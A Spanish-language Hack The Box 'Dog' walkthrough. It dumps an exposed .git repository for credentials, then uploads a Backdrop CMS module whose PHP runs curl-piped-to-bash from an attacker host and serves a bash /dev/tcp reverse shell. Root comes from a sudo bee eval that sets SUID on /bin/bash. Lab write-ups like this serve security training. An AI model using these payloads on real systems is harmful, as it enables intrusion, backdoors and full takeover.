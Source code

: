 HTB “Dog” – Walkthrough
Autor: Ju4nC
Fecha: 2025-07-14
Plataforma: Hack The Box
Tipo: Boot-to-Root
Dificultad: Fácil

Índice
Reconocimiento

Enumeración

Explotación inicial

Escalada de privilegios

Captura de flags

Herramientas usadas

Conclusiones

Reconocimiento
IP objetivo: 10.10.11.58

Escaneo de puertos
```bash
nmap -p- -n -Pn --min-rate 5000 10.10.11.58 -oG allPorts
```
Se detectan los puertos abiertos y se guarda el resultado en allPorts. Luego, usando ExtractPorts, copiamos los puertos abiertos al portapapeles.


nmap -p22,80 -sCV 10.10.11.58 -oN targeted
Resultado:

Puerto 22 → SSH

Puerto 80 → HTTP (sitio web)

Presencia de un repositorio .git

Enumeración
Clonamos el repositorio .git expuesto:


python3 GitHack.py http://10.10.11.58/.git/
cd 10.10.11.58
En los archivos descargados, settings.php contiene una contraseña. Además:


grep -r ".htb"
Nos muestra un correo vinculado al sitio, útil para autenticarnos en el login.

Explotación inicial
Dentro del sitio, accedemos a la opción de instalar un nuevo módulo. Podemos subir un .tar.gz.

Crear módulo malicioso:
Descargamos un ejemplo de módulo desde
https://backdropcms.org/project/examples

Editamos el archivo page_example.module:


<?php system("curl http://IP_ATACANTE | bash"); ?>
En page_example.info, añadimos:

ini
Copiar
Editar
type = module
Empaquetamos:


tar -zcvf page_example.tar.gz page_example/
Servidor y shell reversa:
Creamos un archivo index.html con el payload:


#!/bin/bash
bash -i >& /dev/tcp/IP_ATACANTE/443 0>&1
Levantamos servicios:

python3 -m http.server 80
nc -nlvp 443
Al subir el módulo, se ejecuta el payload y conseguimos acceso al sistema con una shell reversa.

Escalada de privilegios
Enumeramos usuarios en el sistema. Reutilizamos la contraseña obtenida del .git y accedemos como un usuario válido. Luego:


cat user.txt
Comprobamos permisos sudo:


sudo -l
Tenemos acceso a bee. Ejecutamos:

sudo bee --root=/var/www/html eval "system('chmod u+s /bin/bash');"
bash -p
Obtenemos acceso como root.

Captura de flags

cd /root
cat root.txt
Herramientas usadas
nmap

ExtractPorts

GitHack.py

Backdrop CMS

curl, nc, bash

python3 -m http.server

Conclusiones
Revisar si .git/ está expuesto puede revelar credenciales.

Backdrop CMS permite cargas maliciosas si no se valida el contenido.

Los permisos sudo deben auditarse, especialmente si permiten ejecución de binarios arbitrarios.

Es importante combinar enumeración activa con análisis manual de archivos sensibles.






